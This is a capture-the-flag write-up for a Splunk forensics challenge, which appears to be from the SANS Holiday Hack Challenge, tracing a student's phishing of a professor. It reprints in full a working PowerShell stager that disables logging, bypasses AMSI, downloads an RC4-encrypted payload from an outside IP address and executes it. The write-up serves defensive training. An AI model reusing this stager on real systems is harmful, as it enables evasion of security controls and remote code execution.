 # 6) Splunk
## Prompt 1
Access https://splunk.elfu.org/ as elf with password elfsocks. What was the message for Kent that the adversary embedded in this attack? The SOC folks at that link will help you along! For hints on achieving this objective, please visit the Laboratory in Hermey Hall and talk with Prof. Banas.

## Prompt 2
The Search for Holiday Cheer Challenge
1. Your goal is to answer the Challenge Question. You will include the answer to this question in your HHC write-up!
1. You do not need to answer the training questions. You may simply search through the Elf U SOC data to find the answer to the final question on your own.
1. If you need some guidance, answer the training questions! Each one will help you get closer to the answering the Challenge Question.
1. Characters in the SOC Secure Chat are there to help you. If you see a blinking red dot  next to a character, click on them and read the chat history to learn what they have to teach you! And don't forget to scroll up in the chat history!
1. To search the SOC data, just click the Search link in the navigation bar in the upper left hand corner of the page.
1. This challenge is best enjoyed on a laptop or desktop computer with screen width of 1600 pixels or more.
1. WARNING This is a defensive challenge. Do not attack this system, web application, or back-end APIs. Thank you!

# Solve Process
1. I don't know Splunk, so let's learn by following the training questions.
1. Question 1: What is the short host name of Professor Banas' computer?
    1. For the first question, one of the chat logs mentions that a system has beaconing (on the #ELFU SOC sub-chat), and that system's name is 'sweetums'. Alice mentions that's Professor Banas' system... bingo!
1. Question 2: 	What is the name of the sensitive file that was likely accessed and copied by the attacker? Please provide the fully qualified location of the file. (Example: C:\temp\report.pdf)
    1. Returning to Alice Bluebird, we see that we have 18 new messages.
    1. Following the hint to search for the professor's name, we find an unusual email from a student to the professor: please decrypt this zip file and hit enable content on Word, implying that the professor was phished by one of his students. Also, reading the professor's reply suggests that the script created a copy of another student's file even to the exact error. The word document launched a powershell script that ran (with some additional formatting to fix the mess):
    ```powershell
    IF($PSVerSioNTaBLe.PSVERsIOn.MAJor -gE 3)
    {
        $GPF=[Ref].ASsEMBly.GETTyPE('System.Management.Automation.Utils')."GEtFiE`Ld"('cachedGroupPolicySettings','N'+'onPublic,Static');
        IF($GPF)
        {
            $GPC=$GPF.GeTVAluE($nUlL);
            If($GPC['ScriptB'+'lockLogging'])
            {
                $GPC['ScriptB'+'lockLogging']['EnableScriptB'+'lockLogging']=0;
                $GPC['ScriptB'+'lockLogging']['EnableScriptBlockInvocationLogging']=0
            }
            $val=[COLlEcTioNs.GEneRiC.DICTIoNAry[StrING,SySTEm.ObjecT]]::NeW();
            $vAl.AdD('EnableScriptB'+'lockLogging',0);
            $vaL.ADd('EnableScriptBlockInvocationLogging',0);
            $GPC['HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\PowerShell\ScriptB'+'lockLogging']=$VAl
        }
        ElSE
        {
            [SCrIPTBlOCK]."GEtFIe`lD"('signatures','N'+'onPublic,Static').SETVALUe($NUll,(NEW-OBjEct CollEcTions.GEnerIC.HashSeT[sTrING]))
        }
        [REf].ASSEMBlY.GETTYPe('System.Management.Automation.AmsiUtils')|?{$_}|%{$_.GETFielD('amsiInitFailed','NonPublic,Static').SEtValUe($NUlL,$True)};
    };
    [SySteM.NeT.SERvicEPoInTMaNaGer]::EXPecT100CONtInUe=0;
    $wc=NEw-ObjECT SysTEM.NeT.WeBCLiENT;
    $u='Mozilla/5.0 (Windows NT 6.1; WOW64; Trident/7.0; rv:11.0) like Gecko';
    $wC.HEADErS.ADd('User-Agent',$u);
    $Wc.ProXy=[SySTeM.Net.WeBREQuEST]::DEFaULTWebProXy;
    $WC.PRoXy.CREDenTIAls = [SySTEm.NET.CRedeNTiAlCAcHe]::DeFaulTNeTwORkCREDenTiALS;
    $Script:Proxy = $wc.Proxy;
    $K=[SySTEM.Text.EncOdING]::ASCII.GeTBYteS('zd!Pmw3J/qnuWoHX~=g.{>p,GE]:|#MR');
    $R={
        $D,$K=$ARGs;
        $S=0..255;
        0..255 | %{
            $J=($J+$S[$_]+$K[$_%$K.COUnt])%256;
            $S[$_],$S[$J]=$S[$J],$S[$_]
        };
        
        $D | %{
            $I=($I+1)%256;
            $H=($H+$S[$I])%256;
            $S[$I],$S[$H]=$S[$H],$S[$I];
            $_-BXoR$S[($S[$I]+$S[$H])%256]
        }
    };
    $ser='http://144.202.46.214:8080';
    $t='/admin/get.php';
    $WC.HEADErs.Add("Cookie","session=reT9XQAl0EMJnxukEZy/7MS70X4=");
    $DATa=$WC.DownlOADDAtA($sEr+$T);
    $Iv=$DatA[0..3];
    $DatA=$dATa[4..$DatA.lENGtH];
    -JOIN[ChaR[]](& $R $DatA ($IV+$K))|IEX
    ```

    index=main "from\": \"Carl Banas" body*

    --->


    from: Carl Banas <Carl.Banas@faculty.elfu.org>
    to: Bradly Buttercups <Bradly.Buttercups@eIfu.org>
    subject: RE: Holiday Cheer Assignment Submission
    Bradly,
    
    I opened your assignment (which was not easy, by the way) and it seems you have not only not included an image per the instructions, but your assignment is identical to another student's assignment.  This means your grade will be 0/100.

    -----Original Message-----
    From: Bradly Buttercups <Bradly.Buttercups@eIfu.org> 
    Sent: Sunday, August 25, 2019 9:18 AM
    To: Carl Banas <Carl.Banas@faculty.elfu.org>
    Subject: Holiday Cheer Assignment Submission

    Professor Banas, I have completed my assignment. Please open the attached zip file with password 123456789 and then open the word document to view it. You will have to click \"Enable Editing\" then \"Enable Content\" to see it. This was a fun assignment. I hope you like it!  --Bradly Buttercups

        ---> /home/ubuntu/archive/6/0/e/6/0/60e608b8852a18cb3a57e16732f3f19fa87793bb


    index=main message -> powershell!